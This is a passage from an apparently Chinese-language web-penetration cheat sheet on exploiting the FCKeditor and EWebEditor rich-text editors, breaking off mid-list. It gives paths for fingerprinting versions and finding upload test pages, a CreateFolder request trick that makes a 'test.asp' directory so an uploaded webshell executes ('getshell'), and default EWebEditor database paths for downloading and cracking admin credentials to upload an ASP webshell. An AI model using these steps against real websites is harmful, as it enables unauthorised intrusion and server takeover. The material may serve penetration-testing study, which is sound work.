 ##### b. 较高版本对应漏洞

###### ①查看版本

```
方法1：  /fckeditor/editor/dialog/fck_about.html
方法2：  /fckeditor/_whatsnew.htm
```

###### ②查看上传地址

```
/fckeditor/editor/filemanager/connectors/test.html
/fckeditor/editor/filemanager/connectors/uploadtest.html
/fckeditor/editor/filemanager/browser/default/connectors/test.html
/fckeditor/editor/filemanager/upload/test.html
```

###### ③验证漏洞

```
1. 在上传页面创建一个文件夹test.asp，结果变成了test_asp
2. 使用递归创建or二次创建
	指令：/fckeditor/editor/filemanager/connectors/asp/connectors.asp?command= CreateFolder&Type=类型&CurrentFolder=/一级目录名&Newfoldername=二级目录名
```

* 在一级目录`test.asp`中上传一个木马，然后就可以getshell了

#### (4). Ewebeditor

* 使用**默认的EWebEditor编辑器配置**安全风险最高，默认情况下其编辑器的**数据库可以通过浏览器下载**，一旦**破解其后台**管理账号和密码，则可以通过**修改其样式管理**，达到**上传asp网页木马**的目的

##### a. 默认信息

1. 默认数据库路径

   ```
   /db/ewebeditor.mdb
   /db/db.mdb
